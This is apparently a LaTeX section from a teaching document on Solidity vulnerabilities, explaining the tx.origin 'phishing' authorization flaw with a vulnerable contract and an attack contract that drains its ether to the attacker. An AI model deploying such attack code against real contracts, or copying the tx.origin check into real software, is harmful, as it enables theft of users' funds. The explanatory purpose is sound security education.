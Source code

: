 \documentclass[10pt,a4paper]{report}
\begin{document}
\subsection{5. Phishing attack}\label{sec:5-phishing-attack}
Generally speaking, a phishing attack consists in the fraudulent attempt to obtain sensitive information like username, password, credit card details by appearing as a \textit{trustworthy entity} in electronic communication.
A phishing attack in Solidity may be perfomed by exploiting the global variable \texttt{tx.origin} (\textit{address of account that generated the transaction, the original external account}) instead of \texttt{msg.sender} (\textit{\textbf{immediate account}, external or contract that invokes the function}) :
\begin{itemize}
	\item 
	The attacker calls the target contract directlu thus his authorization is checked based on his \textit{personal address}
	\item 
	The attacker creates hiw own contract calling the target contract, runs a phising campaign to run the functionality on the attacker's contract.
	\item 
	The attackers contract makes a transaction call to the target contract but the call originates from the user's address via \texttt{tx.origin}
	\item 
	If the target contract processes the transaction via \texttt{msg.sender} the authorization check will be denied, forbidding to authorize the operation from the attacker
	\item 
	If the target contract checks authorization via \texttt{tx.origin}, the attacker is accessing the target as the victims address thus ca bypass any authorization checks and simply process functionality as the victim user.
	Here an example:
\end{itemize}
\begin{lstlisting}
pragma solidity ^0.8.0; 
contract Phishable { 
		address payable public owner; 
		constructor (address payable _owner) { 
			owner = _owner; 
		} 
		fallback() external payable {} // collect ether
		function withdrawAll(address payable recipient) public { 
			require (tx.origin == owner);
			recipient.transfer(address(this).balance); 
		} 
}
	
import "Phishable.sol"; 
contract AttackContract {
	Phishable phishableContract; 
	address payable attacker; // The attacker's address to receive funds 
	constructor(Phishable phishableContract, address payable attackerAddress) { 
		phishableContract = phishableContract; 
		attacker = attackerAddress; 
	} 
	fallback () external payable {
		phishableContract.withdrawAll(attacker); 
	} 
}
\end{lstlisting}
\end{document}
